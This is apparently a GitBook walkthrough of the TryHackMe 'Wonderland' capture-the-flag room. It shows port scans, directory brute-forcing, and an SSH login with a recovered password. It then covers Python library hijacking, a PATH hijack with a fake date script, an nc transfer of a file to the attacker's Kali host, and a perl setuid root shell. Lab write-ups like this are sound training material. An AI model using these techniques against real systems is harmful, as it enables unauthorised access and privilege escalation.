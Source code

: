 # Wonderland

**Room Link:** [https://tryhackme.com/room/wonderland](https://tryhackme.com/room/wonderland)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

I can see I'm on the right track on the browser

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://$VICTIM/r/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://$VICTIM/r/a -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



After a few letters I was able to just guess the word it's spelling out

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

## TCP/22 - SSH

**Kali**

```
ssh alice@$VICTIM
Pass: HowDothTheLittleCrocodileImproveHisShiningTail
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

## Lateral Movement - Abusing Library path

**Victim**

```
sudo -l
cat /home/alice/walrus_and_the_carpenter.py
```

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Using the first command we can see the path it follows, we can see the first thing it will try is the current directory so we can make a random.py script of our own and put anything we want in it.

**Victim**

```
python3 -c 'import sys; print (sys.path)'
locate random.py
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
echo 'import os' > random.py
echo 'os.system("/bin/bash")' >> random.py
cat random.py
```

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

## Lateral Movement - Abusing Paths

**Kali(receiving)**

```
nc -l -p 1234 > teaParty
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < teaParty
```

### Ghidra

I opened the file in Ghidra and can see that the program is running the date command which we see outputted when we run the script. But note that the date command isn't using the full path so if we add somewhere else in our path we can run our own date command instead.

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

I added tmp to my path

**Victim(rabbit)**

```
echo $PATH
export PATH=/tmp:$PATH
echo $PATH
```

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

I'm not the hatter

**Victim(rabbit)**

```
cd /tmp
echo '#!/bin/bash' > date
echo '/bin/bash' >> date
chmod +x date
cat date
/home/rabbit/teaParty 
```

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation&#x20;

**Victim(hatter)**

We can just follow what's under capabilities but only the last command as CAP\_SETID is already set for perl.

**Exploit:** [https://gtfobins.github.io/gtfobins/perl/](https://gtfobins.github.io/gtfobins/perl/)

```
getcap -r / 2>/dev/null
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>
















